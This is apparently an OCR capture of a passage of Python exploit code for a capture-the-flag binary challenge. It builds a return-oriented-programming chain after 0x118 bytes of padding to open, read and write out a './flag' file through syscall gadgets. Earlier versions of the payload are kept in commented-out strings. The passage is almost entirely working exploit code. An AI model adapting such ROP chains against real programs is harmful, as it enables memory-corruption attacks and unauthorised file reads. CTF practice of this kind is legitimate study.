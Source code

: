 ```python
		poprdi, rdi, 0, 
		poprsi, rsi, 0, 0, 
		poprax, rax, 
		sysret, 
		)



bss   = 0x000000000040c148
flag  = bss
stack = bss + 0x500

def exp():
	'''
	payload = b'./flag\x00'.ljust(0x118, b'a') + flat(
		# rdx = 9
		# open(flag, 0, ..)
		poprax, 2, 
		poprsi, 0, 0, 0, 
		poprdi, flag, 0, 
		sysret, 

		# read(3, flag, ..)
		poprax, 0, 
		poprsi, flag, 0, 0, 
		poprdi, 3, 0, 
		sysret, 

		# wirte(1, flag, ..)
		poprax, 1, 
		poprdi, 1, 0, 
		sysret, 
		)
	'''

	'''
	payload = b'./flag\x00'.ljust(0x118, b'a') + \
			sys(2, flag, 0, 0) + \
			sys(0, 3, flag, 0x200) + \
			sys(1, 1, flag, 0x200) 
	'''

	rop = flat(
		# rdx = 9
		# open(flag, 0, ..)
		poprax, 2, 
		poprsi, 0, 0, 0, 
		poprdi, flag, 0, 
		sysret, 
		
		# set rdx=0x200
		
		# poprax, popret, 
		# popr13, 0x200, 0, 0, 0, 
		# movrdxr13, 
		popr12, 0x200, popret, 0, 0, 
		movrdxr12, 

		# read(3, flag, ..)
		poprax, 0, 
		poprsi, flag, 0, 0, 
		poprdi, 3, 0, 
		sysret, 
```